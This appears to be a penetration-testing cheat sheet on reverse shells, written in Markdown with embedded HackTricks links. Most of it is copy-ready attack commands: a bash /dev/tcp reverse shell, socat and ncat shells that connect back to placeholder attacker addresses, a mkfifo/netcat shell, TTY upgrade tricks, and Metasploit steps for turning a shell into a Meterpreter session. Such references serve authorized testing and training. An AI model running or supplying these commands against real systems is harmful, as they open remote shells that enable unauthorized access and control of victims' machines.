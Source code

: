 # Shells

{% embed url="https://book.hacktricks.xyz/shells/shells/linux" %}
Normal Shells
{% endembed %}

{% embed url="https://book.hacktricks.xyz/shells/shells/full-ttys" %}
Full TTY Shells
{% endembed %}

## Bash

The classic bash-based reverse shell:

```
/bin/bash -i >& /dev/tcp/TargetIP/TargetPort 0>&1
```

**Note:** If the payload doesn't work because redirection or ampersand symbols behave weird in the vulnerable application, then base64 encoding the payload often works well.

## Socat TTY Shell

Do this for a full socat shell, no need to upgrade it. You need socat installed or a socat static binary for this, though.

On kali:

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On the victim machine:

```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR_IP_ADDRESS_HERE:4444
```

Once the connection is made, you probably want to increase the terminal size (run in the reverse shell on the victim machine):

```
stty rows 57 cols 211
```

## Ncat

Listen to port 8001 on attacker machine:

```
sudo nc -lnvp 8001
```

Run ncat on the victim machine:

```
ncat ATTACKER_IP_HERE 8001 -e /bin/bash
```

**Note: The command is ncat, not nc or netcat. There is a difference!**

## Mkfifo

`sh`-based mkfifo reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP_HERE ATTACKER_PORT_HERE >/tmp/f
```

## Upgrading Normal Shells to TTY shells

### Switch From ZSH To Bash

**Warning**: This doesn't work if your attacking machine uses zsh!

You can temporarily switch to bash:

```
exec bash --login
```

You can confirm you're using bash with:

```
ps -p $$
```

### Upgrade the Shell Using Python

Run this in the reverse shell to upgrade it. Don't worry if your terminal turns weird temporarily.

```
python -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

### &#x20;Upgrade the Shell Without Python

```
script -qc "/bin/bash -i" /dev/null
CTRL+Z
stty raw -echo
fg
export TERM=xterm 
```

## Upgrading Normal Shells to Meterpreter

Run `msfconsole`. Create a listener using `multi/handler`:

```
use exploit/multi/handler
set lhost YOUR_IP_ADDRESS
set lport 4444
run
```

Then use one of the above reverse shells to connect to the listener. Once you have the shell, press `CTRL + Z` to background the shell session. It will tell you the **session number**. Keep that in mind.

Next:

```
use post/multi/manage/shell_to_meterpreter
set session SESSION_NUMBER
run
```

Once the upgrade finishes, you'll be able to see your new session:

```
sessions -l
```

Interact with the new session with:

```
sessions -i NEW_SESSION_NUMBER
```
